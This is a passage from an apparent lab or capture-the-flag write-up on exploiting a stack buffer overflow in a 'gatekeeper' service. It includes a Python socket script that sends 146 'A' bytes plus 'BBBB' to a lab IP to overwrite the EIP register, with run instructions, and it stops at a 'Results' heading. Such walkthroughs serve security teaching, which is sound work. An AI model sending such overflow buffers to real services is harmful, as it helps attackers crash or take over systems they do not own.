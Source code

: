 2. Set the `payload` variable to an **empty string**. 

3. Set the `retn` variable to `BBBB`.

    - The `EIP` register should now be overwritten with the 4 B's **(BBBB)** `42424242`. 

- **Note: Executing the next script is not necessary for the exploit, so, from here you can only make the script and save it for the next step**

- Create:

    - `overflow_gatekeeper_controllingEIP.py` (chmod +x)

```python
import socket

ip = "192.168.1.100"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "BBBB"
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```
- ![image](https://user-images.githubusercontent.com/94720207/169703776-31ae3bba-3102-4c62-9d05-89c594ec9eeb.png)

    - **Execute it:**

        - **`python3 overflow1_step3_controllingEIP.py`**
    
    - ![image](https://user-images.githubusercontent.com/94720207/169703821-6b445a04-2d58-443b-ac0d-0f75d66db579.png)
        
    - ![image](https://user-images.githubusercontent.com/94720207/169703863-9ec7cd5c-b6e5-4439-a5ba-6efe93aa274c.png)

- The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

### Results

1. **Crashing with `5000` bytes flooding at once**
